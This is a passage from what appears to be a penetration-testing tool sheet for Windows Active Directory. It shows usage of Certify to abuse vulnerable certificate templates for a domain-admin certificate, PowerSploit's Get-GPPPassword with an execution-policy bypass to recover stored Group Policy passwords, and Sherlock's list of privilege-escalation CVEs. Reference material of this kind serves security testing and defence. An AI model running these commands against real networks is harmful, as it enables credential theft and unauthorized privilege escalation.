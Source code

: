 Usage:

# See if there are any vulnerable templates
Certify.exe find /vulnerable

# Request a new certificate for a template/CA, specifying a DA localadmin as the alternate principal
Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin
Full example walkthrough can be found here.

image

🔙Get-GPPPassword
Get-GPPPassword is a PowerShell script part of the PowerSploit toolkit, it is designed to retrieve passwords for local accounts that are created and managed using Group Policy Preferences (GPP).

Get-GPPPassword works by searching the SYSVOL folder on the domain controller for any GPP files that contain password information. Once it finds these files, it decrypts the password information and displays it to the user.

Install:

Follow the PowerSploit installation instructions from this tool sheet.

powershell.exe -ep bypass
Import-Module PowerSploit
Usage:

# Get all passwords with additional information
Get-GPPPassword

# Get list of all passwords
Get-GPPPassword | ForEach-Object {$_.passwords} | Sort-Object -Uniq
image

🔙Sherlock
PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

Supports:

MS10-015 : User Mode to Ring (KiTrap0D)
MS10-092 : Task Scheduler
MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
MS13-081 : TrackPopupMenuEx Win32k NULL Page
MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
MS15-051 : ClientCopyImage Win32k
MS15-078 : Font Driver Buffer Overflow
MS16-016 : 'mrxdav.sys' WebDAV
MS16-032 : Secondary Logon Handle
MS16-034 : Windows Kernel-Mode Drivers EoP
MS16-135 : Win32k Elevation of Privilege
CVE-2017-7199 : Nessus Agent 6.6.2 - 6.10.3 Priv Esc
Install: (PowerShell)
